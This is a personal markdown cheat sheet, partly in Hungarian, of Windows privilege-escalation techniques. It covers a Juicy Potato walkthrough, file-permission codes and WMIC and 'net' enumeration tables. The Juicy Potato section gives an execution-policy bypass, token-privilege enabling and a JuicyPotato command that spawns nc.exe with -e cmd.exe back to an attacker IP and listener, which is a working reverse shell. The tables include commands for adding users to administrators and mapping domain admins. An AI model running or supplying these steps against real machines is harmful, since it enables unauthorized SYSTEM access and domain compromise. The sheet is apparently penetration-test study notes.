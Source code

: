 # Win privesc techniques
## Juicy Potato
* Needed scripts from github (all of them need to be uploaded to the victim machine)
  * JuicyPotato binaries
    * https://github.com/ohpe/juicy-potato
  * ncat binaries
    * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
  * Enable privileges
    * ez nem mukodott
      * https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
    * ez mukodott
      * https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
* Eloszor futtassuk a JuicyPotato binary-t uresen. Ki kell hogy adja e help menut.
* Utana parameteresen futtassuk
  * Ha hiba van, erdemes megnezni egyesevel a cmd es nc binary-kat az absolute uttal, hogy jok e
  * Ha COM recv hiba van, akkor masik clsid-t probaljunk meg
    * Minden oprendszer verziohoz kulon vannak, itt talalhatok
      * https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
    * Valasszuk ki a megfelelo oprendszer verziot, es ott 4-5 darabot probaljunk meg a clsid-k kozul, valamelyiknek mukodnie kell
<pre>
<b># victim machine</b>
PS> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
PS> Import-Module .\EnableAllTokenPrivs.ps1
PS> Enable-Privilege -Privilege SeAssignPrimaryTokenPrivilege
PS> whoami /priv (most mar elvileg Enabled lett)
PS> .\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\downloads\nc.exe 10.10.16.5 5555 -e c:\windows\system32\cmd.exe" -t * -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}"

<b># attack machine</b>
$ nc -nvlp 5555
</pre>
## File permissions
<pre>
C:\ icacls "C:\file1.txt"
</pre>
<pre>
<b># resource access level</b>
(CI): container inherit
(OI): object inherit
(IO): inherit only
(NP): do not propagate inherit
(I): permission inherited from parent container

<b># basic access permissions</b>
F : full access
D :  delete access
N :  no access
M :  modify access
RX :  read and execute access
R :  read-only access
W :  write-only access
</pre>
## Host enumeration
### Host enumeration with WMIC
|Command|Description|
|-------|-----------|
|wmic qfe get Caption,Description,HotFixID,InstalledOn|Prints the patch level and description of the Hotfixes applied|
|wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List|Displays basic host information to include any attributes within the list|
|wmic process list /format:list|A listing of all processes on host|
|wmic ntdomain list /format:list|Displays information about the Domain and Domain Controllers|
|wmic useraccount list /format:list|Displays information about all local accounts and any domain accounts that have logged into the device|
|wmic group list /format:list|Information about all local groups|
|wmic sysaccount list /format:list|Dumps information about any system accounts that are being used as service accounts.|
### Host enumeration with cmd 'net' command
|Command|Description|
|-------|-----------|
|net accounts|Information about password requirements|
|net accounts /domain|Password and lockout policy|
|net group /domain|Information about domain groups|
|net group "Domain Admins" /domain|List users with domain admin privileges|
|net group "domain computers" /domain|List of PCs connected to the domain|
|net group "Domain Controllers" /domain|List PC accounts of domains controllers|
|net group <domain_group_name> /domain|User that belongs to the group|
|net groups /domain|List of domain groups|
|net localgroup|All available groups|
|net localgroup administrators /domain|List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)|
|net localgroup Administrators|Information about a group (admins)|
|net localgroup administrators [username] /add|Add user to administrators|
|net share|Check current shares|
|net user <ACCOUNT_NAME> /domain|Get information about a user within the domain|
|net user /domain|List all users of the domain|
|net user %username%|Information about the current user|
|net use x: \computer\share|Mount the share locally|
|net view|Get a list of computers|
|net view /all /domain[:domainname]|Shares on the domains|
|net view \computer /ALL|List shares of a computer|
|net view /domain|List of PCs of the domain|
